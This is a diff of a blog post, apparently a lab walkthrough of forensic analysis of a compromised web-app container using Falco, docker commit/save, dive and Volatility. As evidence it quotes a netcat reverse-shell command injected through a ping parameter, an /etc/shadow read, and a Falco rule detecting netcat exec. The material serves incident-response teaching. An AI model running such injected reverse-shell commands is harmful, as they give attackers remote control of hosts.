

reworking analysis a bit

Changed region(s): [[0.0, 0.031, 1.0, 0.8062], [0.0, 0.9302, 0.0305, 1.0], [0.0, 0.8372, 0.0305, 0.8992]]

diff --git a/content/containers/compromised-container-analysis-primer/index.md b/content/containers/compromised-container-analysis-primer/index.md
@@ -7,7 +7,7 @@ date: 2022-05-05T15:14:39+10:00
 
 This post is going to focus on the triaging and analysis of a container that has been compromised. 
 
-
+---
 ### PIDs
 
 Before we get into the actual analysis lets start with a quick overview of how processes exist in containers. When you run PS inside a container you typically get a very short list of running processes, and not all of the processes that are currently running on the underlying host. This is due to one of the foundational compoents that make a container a container, namespaces. Linux namespaces *isolate* the proceses within containers. What does this look like in practice? Lets look.
@@ -36,34 +36,81 @@ This is due to the Linux namespace restricting our view so we can only see proce
 
 For a much more indepth explaination I highly reccommend the book [Container Security: Fundamental Technology Concepts that Protect Containerized Applications](https://www.oreilly.com/library/view/container-security/9781492056690/) by Liz Rice. Last I checked Aqua security was giving the ebook away for free.
 
+---
 ### The Scene
-Moving on to a more practical example let's pretend that we get an alert or a system admin reached out to us because of some strange behavior they were seeing on a host that runs container workloads. When we begin our investigation we see something that instantly looks off (it is a bit contrived but works for our purposes).
+Moving on to a more practical example let's pretend that we get an alert from our runtime protection agent running on the a host. In fact several alerts are generated for this behavior, but for our purposes just the one will be enough to kick of this investigation. The alert is below:
+
+```
+{
+  "output": "21:39:47.159547041: Warning Netcat runs inside container that allows remote code execution (user=www-data user_loginuid=-1 command=nc 172.31.93.20 9876 -e /bin/sh container_id=60795d68fdee container_name=eloquent_babbage image=webapp:v1.0)",
+  "priority": "Warning",
+  "rule": "Netcat Remote Code Execution in Container",
+  "source": "syscall",
+  "tags": [
+    "mitre_execution",
+    "network",
+    "process"
+  ],
+  "time": "2022-05-10T21:39:47.159547041Z",
+  "output_fields": {
+    "container.id": "60795d68fdee",
+    "container.image.repository": "webapp",
+    "container.image.tag": "v1.0",
+    "container.name": "eloquent_babbage",
+    "evt.time": 1652218787159547100,
+    "proc.cmdline": "nc 172.31.93.20 9876 -e /bin/sh",
+    "user.loginuid": -1,
+    "user.name": "www-data"
+  }
+}
+```
+
+The rule name is `Netcat Remote Code Execution in Container` (ruh roh), and in the output fields section we can see all kinds of useful information such as data about the image, the running container name, the command line associated with the alert, and the user that ran the command. Looking at the [rule](https://github.com/falcosecurity/falco/blob/master/rules/falco_rules.yaml#L2462) syntax it is a fairly simple rule.
+
+```
+ spawned_process and container and
+    ((proc.name = "nc" and (proc.args contains "-e" or proc.args contains "-c")) or
+     (proc.name = "ncat" and (proc.args contains "--sh-exec" or proc.args contains "--exec" or proc.args contains "-e "
+                              or proc.args contains "-c " or proc.args contains "--lua-exec"))
+    )
+```
+
+The output for the rule is:
+```
+output: >
+    Netcat runs inside container that allows remote code execution (user=%user.name user_loginuid=%user.loginuid
+    command=%proc.cmdline container_id=%container.id container_name=%container.name image=%container.image.repository:%container.image.tag)
+```
+
+If we wanted to have additional information such as process id or parent process id in the output we could add that.
+
+Comparing the rule to the process cmdline included in the output_fields we can see clearly why it was triggered. Falco is a great tool and free to use. The fact that it is container aware makes it a great tool when looking to detect suspicious and malicious behavior in a container environment.
+
+On the host when we run `ps aux` we see an output similar to the one below. 
 
 ```
 USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
-www-data    5631  0.0  0.0   4296   732 ?        S    12:07   0:00 sh -c ping  -c 4 & /bin/nc 172.31.18.167 8888 -e /bin/bash
+www-data   12520  0.0  0.0   4296   796 ?        S    21:53   0:00 sh -c ping  -c 4 & nc 172.31.93.20 9876 -e /bin/sh
 ```
 
-We know this host runs containers, and guessing by the username this is probably tied to a webserver. In speaking with the system admin we learn that this host does not directly run a webserver, but it's very likely one of the application teams is running a webserver to host an application out of one of the container workloads. We can confirm this is true by looking at the pstree output:
+Digging deeper if we run `pstree -asp 12520` we see that the nc process is a child of apache2. 
 
 ```
-pstree -asp 5631
+pstree -asp 12520
 
 systemd,1
-  └─containerd-shim,1201 -namespace moby -id 74103b827ac72be1de5a00ebc2524b8100abdfb8fee9209e35fda295049c9f95 -address /run/containerd/containerd.sock
-      └─main.sh,1223 /main.sh
-          └─apache2,1566 -k start
-              └─apache2,5239 -k start
-                  └─sh,5631 -c ping  -c 4 & /bin/nc 172.31.18.167 8888 -e /bin/bash
-                      └─bash,5633
+  └─containerd-shim,11971 -namespace moby -id 60795d68fdeeda1241083ffb35c96e3df8c295380ec4da7bc2b277db4d428216 -address /run/containerd/containerd.sock
+      └─main.sh,11992 /main.sh
+          └─apache2,12323 -k start
+              └─apache2,12336 -k start
+                  └─sh,12520 -c ping  -c 4 & nc 172.31.93.20 9876 -e /bin/sh
+                      └─sh,12522 -c /bin/sh
+                          └─sh,12523
 ```
 
-Unfortunatly during the middle of our initial triage the machine is destroyed by the administrator in an attempt to resolve the issue. A few days later we get additional alerts from the newly created host. The alert: 
+nc usage is common in most place where Linux is used. It is not common to see nc as a child process of apache2. We know there is an active nc session, but what else has occured in the container? Let's dive into the image a figure it out. At this point several additional alerts from Falco start to roll in, and after speaking with the application owner we learn that they put nc in the container for troubleshooting connectivity issues, but they always ran it from a shell in the container as root never as the apache user. They also confirmed they have not been doing any testing recently. If this were a real scenario this host would probably be isolated if possible and attempts would be made to understand what kind of data is processed on the machine. Thankfully this is just a lab and all of that is out of scope for this post :).
 
-```
-10:20:05.408091526: Warning Sensitive file opened for reading by non-trusted program (user=root command=cat /etc/shadow file=/etc/shadow)
-```
-
+---
 ### Carving the running container out
 
 First lets grab the eqivilant of a disk image of the running container this. We'll be able to perform an analysis on the image and it also preserves the image in the event that it is killed. *Note: this post mainly focuses on the container itself, opperating within a Kubernetes cluster is highly likely in a scenario similar to this. There are additional things that should occur when performing analysis on a Kubernetes cluster to preserve and protect both the running container and the host that the container is running on. Failure to do so may result in the entire node being terminated and all relevant evidence along with it.*
@@ -73,21 +120,21 @@ Lets determine the container id where this process lives
 ```
 # docker ps
 CONTAINER ID   IMAGE                  COMMAND      CREATED       STATUS       PORTS                               NAMES
-74103b827ac7   publicfacingapp:v1.0   "/main.sh"   2 hours ago   Up 2 hours   0.0.0.0:80->80/tcp, :::80->80/tcp   pensive_newton
+60795d68fdee   webapp:v1.0   "/main.sh"   3 hours ago   Up 3 hours   0.0.0.0:80->80/tcp, :::80->80/tcp   eloquent_babbage
 ```
 
 Now that we know the container ID we can create an image from the running container preserving any changes that have occured since the container was launched:
 
 ```
-docker commit 74103 sec-incident:123
+docker commit 6079 sec-incident:123
 ```
 
 When we run the `docker images` command we see our new image, as well as the orignal image the container launched with. 
 
 ```
-REPOSITORY        TAG       IMAGE ID       CREATED          SIZE
-sec-incident      123       21ec0e2680fa   5 seconds ago    845MB
-publicfacingapp   v1.0      ab0d83586b6e   3 years ago      712MB
+REPOSITORY             TAG       IMAGE ID       CREATED          SIZE
+sec-incident           123       9f64c8bead0e   21 seconds ago   845MB
+webapp                 v1.0      7adda9b17363   3 hours ago      714MB
 ```
 
 Comparing the sizes of the two images there have been lots of changes within the image since it was first launched. Next we will save the image so that it is portable and can be moved to our analysis workstation.
@@ -96,22 +143,12 @@ Comparing the sizes of the two images there have been lots of changes within the
 docker save sec-incident:123 -o sec-incident.tar
 ```
 
-It's important to note we are using the `docker save` command instead of the `docker export` command. Both with produce a tar file. The biggest difference is that the export command will flatten the image/layer history. Save on the other hand will preserve all of the layer history. For our use case preserving the history is very helpful when analyzing how the image has shifted from it's initial launch.
+It's important to note we are using the `docker save` command specifying the image we created from the running container instead of the `docker export` command on the running container. Both with produce a tar file. The biggest difference is that the export command will flatten the image/layer history. Save on the other hand will preserve all of the layer history. For our use case preserving the history is very helpful when analyzing how the image has shifted from it's initial launch. From here as an analyst the tar files will more than likely be exported to an analysis machine.
 
-df -h
+To let other tools and docker interact with the image we need to perform a `docker load` on the tar file produced from the `docker save` command. This will trigger the following output:
 
-Let's dig into those changes.
-
-### Dive
-
-There are several tools that can be used to perform static analysis of a container image. One of my favorites is dive. Dive is "a tool for exploring a docker image, layer contents, and discovering ways to shrink the size of your Docker/OCI Image." Obviously for our purposes we do not care about shrinking the image we just want to be able to explore the image at each of the various layers.
-
-Once installed on our analysis system we can 
-
-
-docker load:
 ```
-docker load < security-incident-123.tar
+docker load < sec-incident-save.tar
 a75caa09eb1f: Loading layer [==================================================>]    105MB/105MB
 80f9a8427b18: Loading layer [==================================================>]  494.7MB/494.7MB
 97a1040801c3: Loading layer [==================================================>]  7.168kB/7.168kB
@@ -124,11 +161,135 @@ deeea3c4d56f: Loading layer [==================================================>
 Loaded image: sec-incident-123:latest
 ```
 
-Looking at the image in dive in the top left panel we can see all of the image layers. The bottom layer are all of the changes that occureced since the image was started to the time we saved the image. In our case ~122MB of changes occured.
+From this output we can tell there are 9 unique layers to this image. 
+
+---
+### What is an image
+
+An image according to docker.com is "A Docker container image is a lightweight, standalone, executable package of software that includes everything needed to run an application: code, runtime, system tools, system libraries and settings." Technically however an image is just a collection of tar'd files/folders. Each layer is a folder within the tar file. Within each layers folder contains information about the layer, and then any files associated with that particular layer.
+
+In our example when we extract the sec-incident-save.tar file we see an out put that contains a layer folder, inside of that folder is a VERSION, json, and layer.tar file. Additionally at the root level of the image there is `manifest.json`, `repositories`, and a `9f64c8bead0ee4c81d3cbf354000bcfa73fb2172b2bb475ed814f2ed21543192.json` file. The `9f64c8bead0ee4c81d3cbf354000bcfa73fb2172b2bb475ed814f2ed21543192.json` file uses the hash of the image. The image hash is a sha256sum of this config file. 
+
+```
+tar -xvf sec-incident-save.tar
[3 lines of base64/hex data omitted]
+1e258db2bc4b80ddf6b0234a753e67e68afc57f5b68bd63091b2463f98239db6/layer.tar
[3 lines of base64/hex data omitted]
+2f791a144bbd21a878ac1cbdc315271f2d64b7d059cfd5bdc0a0b23a9f84a861/layer.tar
[3 lines of base64/hex data omitted]
+69357d9443c362104c1cb648c321c7c67f69e44dbe0e165d61a0e7a97fe4a681/layer.tar
[3 lines of base64/hex data omitted]
+6d07a8a501ec407bab89b3e4843765871b2535f6c014766e39593e301a864cb2/layer.tar
[3 lines of base64/hex data omitted]
+8c01d32055aa0185b6f431699215c02c6c61992f632ced61260ce79ce757e9e5/layer.tar
[3 lines of base64/hex data omitted]
+9b343757fc4d7aa18af8ba7b988dcc2cae4aa68941e118a2663854a210b08dfb/layer.tar
+9f64c8bead0ee4c81d3cbf354000bcfa73fb2172b2bb475ed814f2ed21543192.json
[3 lines of base64/hex data omitted]
+a64a14b19fd1c49f9ee5be1004c573841060e6543c4a5ec24081d5f12fb16fde/layer.tar
[3 lines of base64/hex data omitted]
+c1def0ce6c299d5c3e65ddd3ba912535ca8e957e4396d2603e4044eb526879b4/layer.tar
[3 lines of base64/hex data omitted]
+c4e25f8bd6f234eb87af3d94ad1b36cb6d2f8ac48ae98d350371814945b0db27/layer.tar
[3 lines of base64/hex data omitted]
+ca545f5f7989cbac3c4e11e1f48ff7b56b7e71de4aae7286a06484160377f18a/layer.tar
[3 lines of base64/hex data omitted]
+caf4b5489e6096309d0746684ba5371f28dea80bf8aa2251df2badc6d8340aab/layer.tar
+manifest.json
+repositories
+```
+
+The `manifest.json` file shows us information about the layers in the image as well as the repo/tags associated with the image
+
+```
+[
+  {
+    "Config": "9f64c8bead0ee4c81d3cbf354000bcfa73fb2172b2bb475ed814f2ed21543192.json",
+    "RepoTags": [
+      "sec-incident:123"
+    ],
+    "Layers": [
+      "69357d9443c362104c1cb648c321c7c67f69e44dbe0e165d61a0e7a97fe4a681/layer.tar",
+      "9b343757fc4d7aa18af8ba7b988dcc2cae4aa68941e118a2663854a210b08dfb/layer.tar",
+      "1e258db2bc4b80ddf6b0234a753e67e68afc57f5b68bd63091b2463f98239db6/layer.tar",
+      "c4e25f8bd6f234eb87af3d94ad1b36cb6d2f8ac48ae98d350371814945b0db27/layer.tar",
+      "c1def0ce6c299d5c3e65ddd3ba912535ca8e957e4396d2603e4044eb526879b4/layer.tar",
+      "a64a14b19fd1c49f9ee5be1004c573841060e6543c4a5ec24081d5f12fb16fde/layer.tar",
+      "2f791a144bbd21a878ac1cbdc315271f2d64b7d059cfd5bdc0a0b23a9f84a861/layer.tar",
+      "caf4b5489e6096309d0746684ba5371f28dea80bf8aa2251df2badc6d8340aab/layer.tar",
+      "8c01d32055aa0185b6f431699215c02c6c61992f632ced61260ce79ce757e9e5/layer.tar",
+      "ca545f5f7989cbac3c4e11e1f48ff7b56b7e71de4aae7286a06484160377f18a/layer.tar",
+      "6d07a8a501ec407bab89b3e4843765871b2535f6c014766e39593e301a864cb2/layer.tar"
+    ]
+  }
+]
+```
+
+The `repositories` file is just information about the image 
+
+```
[1 lines of base64/hex data omitted]
+```
+
+When we look at the `9f64c8bead0ee4c81d3cbf354000bcfa73fb2172b2bb475ed814f2ed21543192.json` config file we can see all of the layers and what command(s) were used to create the layer. Below is a snip from the file:
+
+```
+    {
+      "created": "2018-10-12T17:49:01.240444043Z",
+      "created_by": "/bin/sh -c #(nop)  ENTRYPOINT [\"/main.sh\"]",
+      "empty_layer": true
+    },
+    {
+      "created": "2022-05-10T21:32:10.671619454Z",
+      "created_by": "/bin/sh -c #(nop) COPY file:2d20aa4eee806c995fcc211ba0077b67c72aa53ac0ba27ec57a721820907c4ff in /bin/nc "
+    },
+    {
+      "created": "2022-05-10T21:32:11.329409992Z",
+      "created_by": "/bin/sh -c chmod +x /bin/nc"
+    },
+    {
+      "created": "2022-05-11T00:38:09.016419258Z"
+    }
+```
+In the above output we can clearly see the original image launch layer which was created by the command `/bin/sh -c` with the entrypoint of `main.sh` Below that we see two additional layers added by the application owner for troubleshooting purposes where they copied `nc` into the image and then made the file executable `/bin/sh -c chmod +x /bin/nc`. The last layer only has a timestamp, but no other information. This is the layer where we will want to look because it will container any changes to the file system since the container was started. Before we start to unpack each layer and manually trompsing through lets make things easier and utilize a tool built specifically to help us visualize the data we want to see.
+
+---
+### Dive
+
+There are several tools that can be used to perform static analysis of a container image. One of my favorites is dive. Dive is "a tool for exploring a docker image, layer contents, and discovering ways to shrink the size of your Docker/OCI Image." Obviously for our purposes we do not care about shrinking the image we just want to be able to explore the image at each of the various layers.
+
+Once installed on our analysis system we can 
+
+
+
+
+Looking at the image in dive in the top left panel we can see all of the image layers. The bottom layer are all of the changes that occurred since the image was started to the time we saved the image. In our case ~132MB of changes occured.
 
 ![dive-layers.png](images/dive-layers.png "dive-layers")
 
[2 lines of base64/hex data omitted]
 
 ![dive-layer-details.png](images/dive-layer-details.png "dive-layer-details")
 
@@ -136,35 +297,38 @@ On the right we can see all of the contents of the filesystem at the current lay
 
 ![dive-layer-contents.png](images/dive-layer-contents.png "dive-layer-contents")
 
-Looking at layer contents we can see there are several new files. Unfortunatly dive does not offer the ability to extract a file directly. To dig into the files themselves to better understand what has occured we'll have to extract the layer from the image. 
+We can see that a new session file was created, and that the access and error log files were modified, likely due to webtraffic to the application. As we continue to look through the change that occured we see several new files that have been created. Each file is worth digging into deeper to gain some understanding as to what has occurred.
 
+![dive-layer-contents-2.png](images/dive-layer-contents-2.png "dive-layer-contents-2")
+
+Unfortunatly dive does not offer the ability to extract a file directly. To dig into the files themselves to better understand what has occured we will have to extract the layer from the image. 
+
+---
 ### File Analysis
-We can extract the layers the same way we would any other tar file
+Back in our extracted image folder we can use the layer id identified using Dive to selectivly target the layer we want.
 
-```
-tar -xvf security-incident-123.tar
-```
-
[1 lines of base64/hex data omitted]
-
[1 lines of base64/hex data omitted]
 
 ![extracted-layer-details.png](images/extracted-layer-details.png "extracted-layer-details")
 
-We can about the layer.tar file once again we'll extract it with `tar -xvf layer.tar`. This presents us with all of the folders where a change occured. Using what we learned from Dive above we can navigate to files of interest and begin to inspect them to determine what there intent was. This is only part of the picture though. 
+We care about the layer.tar file once again we will extract it with `tar -xvf layer.tar`. This presents us with all of the folders where a change occured. Using what we learned from Dive above we can navigate to files of interest and begin to inspect them to determine what there intent was. This is only part of the picture though. 
 
+---
 ### Intermission
 
-The "disk" analysis of the container is only part of the picture though. After analyzing the files we determined that there were several webshells present. Given the timestamps of when they appear to have been created it would appear it was the same actor copying the same shell to maintain access in the event that one of the shells was discovered and deleted. The shell was the same and it was a version of Web Shell Orb. A fairly full featured webshell with various capabilities.
+The "disk" analysis of the container is only part of the picture though. During analysis we learn the curl binary was uploaded in parts and then rebuilt as `ifj`. A coinminer was also uploaded in parts and rebuilt as the binary `8`. Additionally several webshells were uploaded. Given the timestamps of when all of the files appear to have been created it would appear it was the same actor copying the same shell to maintain access in the event that one of the shells was discovered and deleted. The shell was the same and it was a version of Web Shell Orb. A fairly full featured webshell with various capabilities.
 
+---
 ### Memory Analysis
 
-Collection of memory occurs just as it would for any other Linux host. For this post LiME was used, but avml is also an option.
+Collection of memory occurs just as it would for any other Linux host. For this post LiME was used, but avml is also an option. Since this is a lab environment and the scenario is a bit contrived disk analysis tells enough of the story for us to understand what has occurred. If this were a bit more realistic the 8 binary probably would have been deleted from disk and we would either recover it from the /proc folder or we would carve it out of memory to perform analysis on it and determine what the binaries purpose. With that in mind I chose to skip digging into that and instead dig into some special things about container memory analysis with volatility.
+
 
 #### Volatility2
 ```
 python2 /home/ubuntu/git/volatility/vol.py --profile=Linuxubuntu-5_13_0-1022-awsx64 -f /home/ubuntu/webserver.lime linux_pslist
 ```
-When it comes to memory analysis with volatility there really isn't anything special about analyzing activity that has occurred in a container vs outside on the host. The most important thing to remeber is when analyzing processes is to utilize the PID of the suspicious processes on at the host level and not the container native PIDs.
+When it comes to memory analysis with volatility there really isn't anything special about analyzing activity that has occurred in a container vs outside on the host. The most important thing to remember is when analyzing processes is to utilize the PID of the suspicious processes on at the host level and not the container native PIDs.
 
 
 #### Volatility3
